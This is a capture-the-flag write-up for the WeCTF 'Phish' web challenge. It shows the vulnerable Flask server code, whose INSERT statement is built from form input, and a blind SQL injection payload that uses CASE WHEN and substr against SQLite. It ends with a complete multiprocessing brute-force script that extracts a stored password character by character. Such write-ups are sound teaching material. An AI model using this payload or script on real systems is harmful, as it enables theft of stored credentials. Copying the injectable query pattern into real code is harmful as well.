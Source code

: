 # [WeCTF](https://ctftime.org/event/1231)
## Task: Phish
##### Tags: `medium` `web`
We get the source code of the phishing site and link to it.
#### Source code
Many files are html, css to make the site looks similar to apple cloud. But there is a `main.py` file where all server code is.
```python
class User(Model):
    id = AutoField()
    password = CharField()
    username = CharField(unique=True)

    class Meta:
        database = db

@db.connection_context()
def initialize():
    try:
        db.create_tables([User])
        User.create(username="shou", password=os.getenv("FLAG"))
    except:
        pass

initialize()

@app.route("/add", methods=["POST"])
def add():
    username = request.form["username"]
    password = request.form["password"]
    sql = f"INSERT INTO `user`(password, username) VALUES ('{password}', '{username}')"
    try:
        db.execute_sql(sql)
    except Exception as e:
        return f"Err: {sql} <br>" + str(e)
    return "Your password is leaked :)<br>" + \
           """<blockquote class="imgur-embed-pub" lang="en" data-id="WY6z44D"  ><a href="//imgur.com/WY6z44D">Please
        take care of your privacy</a></blockquote><script async src="//s.imgur.com/min/embed.js"
        charset="utf-8"></script> """
```
So, the flag is in the password of the Shou account. And we can see page `/add` that creates a new account. And we can see that there is an INSERT where values go straight from the input. It's SQL injection for sure, and since it returns an error we can perform an error-based SQL injection. We cannot simply get the flag from DB because it does not return any output.
```sql
mark', CASE WHEN substr((SELECT password FROM user WHERE username = 'shou'),1, 1) = 'w' THEN "*random_name*" ELSE "shou" END); --'''
```
I had many troubles with SQLite syntax, but finally, I got it. If the letter is correct we create a new user, if not we get a UNIQUE error because Shou account there for sure.

## Automation
Firstly, I've tried to make fewer requests by checking the format of the flag and get rid of impossible symbols in some places of the flag. But I was making too many errors (to submit flag), so I tried and made pure bruteforce:
```python
import requests
import random
import string
import re
from multiprocessing import Process

alf = []
for i in range(0, 256):  # get any possible letter in alphabet
    if chr(i) == "'":
        continue
    if 'a' <= chr(i) <= 'z' or 'A' <= chr(i) <= 'Z' or '!' <= chr(i) <= '@' or chr(i) in '$%^()=-}{_':
        alf.append(chr(i))

sql_injection = '''mark', CASE WHEN substr((SELECT password FROM user WHERE username = 'shou'),{}, 1) = '{}' THEN "{}" ELSE "shou" END); --'''
data = {"username": "mark"}


def worker(i):  # Finds right i-th letter
    f = open(f"./ans/s_{i}", 'wt')
    for letter in alf:
        random_name = ''.join(random.choice(string.ascii_lowercase) for k in range(100))
        local_data = data
        local_data['password'] = sql_injection.format(i, letter, random_name)
        res = requests.post("http://phish.sg.ctf.so/add", data=local_data)
        if len(re.findall(r'UNIQUE constraint failed', res.text)) == 1:  # Shou's account. wrong letter
            continue
        if len(re.findall(r'Your password is leaked ', res.text)) == 1:  # Right letter
            f.write(letter)
            break


if __name__ == "__main__":
    processes = []
    for i in range(1, 100):  # Made it in 100 processes instead of threads (because of GIL)
        processes.append(Process(target=worker, args=(i,)))
        processes[-1].start()
    for p in processes:
        p.join()
    ans = ''
    for i in range(1, 100):
        f = open(f'./ans/s_{i}')
        a = f.read()
        ans += a
    print(ans)

```
Also, I was too tired of this task and wanted to finish it asap, so I've done Process communication via files for simplicity and submitted the ✨flag✨.
